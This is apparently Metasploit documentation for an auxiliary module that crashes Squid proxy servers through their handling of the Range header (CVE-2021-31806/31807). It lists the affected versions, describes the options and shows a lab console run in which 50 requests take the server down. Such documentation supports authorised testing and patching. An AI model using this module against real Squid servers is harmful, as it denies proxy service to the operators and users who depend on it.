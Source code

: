 ## Vulnerable Application

This module exploits two vulnerabilities in the Squid Caching Proxy server and its
handling of cached pages and the `Range` HTTP header.

Due to the way Squid handles the HTTP request header `Range`, an assertion can be
caused due to a standard HTTP request. Once all of Squid's children workers have
asserted, a Denial of Service of the proxy is achieved.

Vulnerable versions of Squid include:
* 2.5.STABLE2-2.7.STABLE9.
* 3.0-4.1.4.
* 5.0.1-5.0.5.

Security bulletin from Squid: https://github.com/squid-cache/squid/security/advisories/GHSA-pxwq-f3qr-w2xf

## Verification Steps

1. Start msfconsole
2. use auxiliary/dos/http/squid_range_dos.rb`
3. Set `rhost
4. Set `rport`
5. run

## Options

### REQUEST_COUNT

REQUEST_COUNT is both the the number of HTTP requests which are sent to the server in
order to perform the actual Denial of Service (i.e. accepted requests by the server),
and the number of requests that are sent to confirm that the Squid host is actually
dead.

### CVE

This is the CVE that will be used to exploit the vulnerability.
The default setting is `CVE-2021-31806`, but `CVE-2021-31807` can also be chosen.

## Scenarios

In this scenario the target server is running on the same host as Metasploit (192.168.159.128).
```
msf6 > use auxiliary/dos/http/squid_range_dos i
msf6 auxiliary(dos/http/squid_range_dos) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 auxiliary(dos/http/squid_range_dos) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 auxiliary(dos/http/squid_range_dos) > show options

Module options (auxiliary/dos/http/squid_range_dos):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   CVE            CVE-2021-31806   yes       CVE to check/exploit (Accepted: CVE-2021-31806, CVE-2021-31807)
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   REQUEST_COUNT  50               yes       The number of requests to be sent, as well as the number of re-tries to confirm a dead host
   RHOSTS         192.168.159.128  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          3128             yes       The target port (TCP)
   SRVHOST        192.168.159.128  yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT        8080             yes       The local port to listen on.
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host


Auxiliary action:

   Name  Description
   ----  -----------
   DOS   Perform Denial of Service Against The Target


msf6 auxiliary(dos/http/squid_range_dos) > run
[*] Running module against 192.168.159.128

[*] Sending 50 DoS requests to 192.168.159.128:3128
[*] Using URL: http://192.168.159.128:8080/Sv2fFH3gmGeN4VC
[*] Sent first request to 192.168.159.128:3128
[*] Sent DoS request 1 to 192.168.159.128:3128
[*] Sent DoS request 2 to 192.168.159.128:3128
[*] Sent DoS request 3 to 192.168.159.128:3128
[*] Sent DoS request 4 to 192.168.159.128:3128
[*] Sent DoS request 5 to 192.168.159.128:3128
[+] DoS completely successful.
[*] Server stopped.
[*] Auxiliary module execution completed
msf6 auxiliary(dos/http/squid_range_dos) >
```

At this point, the target Squid server should be completely inaccessible: all children
workers should have exited, and the main process should have also shut down.

